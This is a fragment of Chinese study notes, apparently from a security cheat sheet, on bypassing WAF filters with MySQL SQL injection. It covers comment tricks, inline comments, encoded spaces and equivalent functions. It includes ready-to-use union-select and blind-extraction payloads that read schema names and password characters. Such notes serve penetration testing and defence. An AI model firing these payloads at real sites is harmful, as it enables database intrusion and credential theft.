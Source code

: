 - 普通注释

举例：
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4
    
&emsp;&emsp;/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询
    
- 内联注释
  

&emsp;&emsp;相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例:
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3

> ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…

&emsp;&emsp;两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用
    
1. 等价函数与命令
    有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用
    
    ```sql
    hex()、bin() ==> ascii()
    sleep() ==>benchmark()
    concat_ws()==>group_concat()
    mid()、substr() ==> substring()
    @@user ==> user()
    @@datadir ==> datadir()
    ```
    例如:
    substring()和substr()无法使用时：
    ```sql
    ?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
    ```
    
    1. 特殊符号
    利用反引号等符号,或用@定义变量,或用+号连接被拆分的字符串
    
    1. HTTP参数控制
    重复发送同一个参数,不太常见
    
    1. 缓冲区溢出
    跟基于报错那个差不多
    
    1. 整合绕过
    把前面说的合起来
    ```sql
    z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4
    
    id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/  *!TaBlE_ScHeMa*/+like+database() -
    ?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--
    ```
    速记:
    - 空格过滤: 
      - 注释
      - %20 %09 %0a %0d %0b %0c %0d %a0等url编码
    - 逗号过滤
      - 用JOIN()绕过
      - 用select绕过
    
    [参考文章](http://drops.xmd5.com/static/drops/tips-7840.html)
